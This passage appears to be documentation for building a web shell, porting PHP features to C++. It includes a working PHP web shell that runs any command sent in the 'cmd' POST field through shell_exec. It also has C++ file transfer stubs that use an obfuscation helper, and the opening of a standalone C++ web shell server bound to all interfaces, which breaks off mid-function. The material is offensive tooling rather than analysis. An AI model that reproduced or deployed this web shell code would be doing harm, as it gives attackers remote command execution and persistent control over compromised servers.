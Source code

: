### 3. File Operations

**PHP Equivalent:**
```php
file_get_contents($filename);
file_put_contents($filename, $data);
move_uploaded_file($tmp, $destination);
```

**C++ Implementation:**
```cpp
bool uploadFile(const std::string& localPath, const std::string& remotePath) {
    std::ifstream file(localPath, std::ios::binary);
    if (!file.is_open()) return false;
    
    std::vector<uint8_t> fileData((std::istreambuf_iterator<char>(file)),
                                  std::istreambuf_iterator<char>());
    file.close();
    
    // Encode file data
    std::string encodedData = WebShellObfuscation::base64Encode(fileData);
    
    // Store or transmit encoded data
    return true;
}

bool downloadFile(const std::string& remotePath, const std::string& localPath) {
    std::ofstream file(localPath, std::ios::binary);
    if (!file.is_open()) return false;
    
    // Retrieve and decode data
    // Write to file
    
    return true;
}
```

### 4. HTTP Server Implementation

**PHP Web Interface Equivalent:**
```php
<?php
if ($_POST['cmd']) {
    echo shell_exec($_POST['cmd']);
}
?>
```

**C++ Implementation:**
```cpp
class StandaloneCppWebShell {
private:
    SOCKET serverSocket;
    std::thread serverThread;
    
public:
    bool start() {
        serverSocket = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
        
        sockaddr_in serverAddr;
        serverAddr.sin_family = AF_INET;
        serverAddr.sin_addr.s_addr = INADDR_ANY;
        serverAddr.sin_port = htons(port);
        
        bind(serverSocket, (sockaddr*)&serverAddr, sizeof(serverAddr));
        listen(serverSocket, SOMAXCONN);
```